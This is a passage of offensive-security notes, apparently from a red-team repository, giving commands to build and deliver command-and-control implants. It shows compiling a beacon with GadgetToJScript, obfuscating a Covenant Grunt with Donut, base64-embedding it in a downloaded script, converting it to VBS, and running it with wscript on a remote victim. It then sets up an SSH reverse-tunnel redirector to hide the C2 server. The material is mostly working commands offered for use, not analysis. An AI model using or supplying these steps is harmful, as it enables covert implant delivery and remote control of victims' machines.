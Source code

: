 3. Compile with **GadgetToJScript**

```
GadgetToJScript.exe -b -w vbs -o beacon -c .\real.cs
```

4. Execute with `wscript.exe beacon.cs`

### Covenant Grunt
For covenant, since its already has its built in .NET generator. You can use donut to further obfuscate the assembly/

1. Generate **binary** from Covenant
2. Obfuscate and convert to byte array with **Donut**. It will then generate into .bin file.
```
donut.exe -f .\Grunt.exe
```
3. Convert .bin file to base64 and save to clipboard
```powershell
# save filepath to a variable
$filename='<file-path-to>\payload.bin'
# Convert file to base64 and save to clipboard
[Convert]::ToBase64String([IO.File]::ReadAllBytes($filename) | Clip
```
4. Download [this](https://gist.githubusercontent.com/3xpl01tc0d3r/ecf5e1ac09935c674a9c6939c694da13/raw/238ed3339a458ce0260f98dc18a38fdbed420457/Payload.txt) script, save as payload.cs (or anythin bcs no one cares) and replace the `b64` variable with our current clipboard
5. Convert payload.cs to vbs with **GadgetToJScript**
```
.\GadgetToJScript.exe -b -w vbs -o realtest -c .\real.cs
```
6. Execute on remote computer
```
wscript.exe .\realtest.vbs
```

# C2 Redirector
Instead of directly interacting victims and C2 server. This is actually a neat trick to just use a redirector to be a middle man and route all the C2 traffic to your C2 server (in your local network)

### SSH Remote Tunnel
_Caveat: This method is not 100% reliable since it accepts all traffic coming through a single forwarded port. This will create more rubbish traffic comming into teamserver's IP_
1. Uncheck this line in `/etc/ssh/sshd_config` and restart ssh server
```ini
GatewayPorts clientspecified
```
2. Create reverse tunnel to the redirector. Be careful! this will open your local port (443) to to your VPS. _Note that on the left side is your redirector port and right side is your local C2 server port_
```bash
ssh -R 0.0.0.0:443:127.0.0.1:443 root@redirectorIP
```
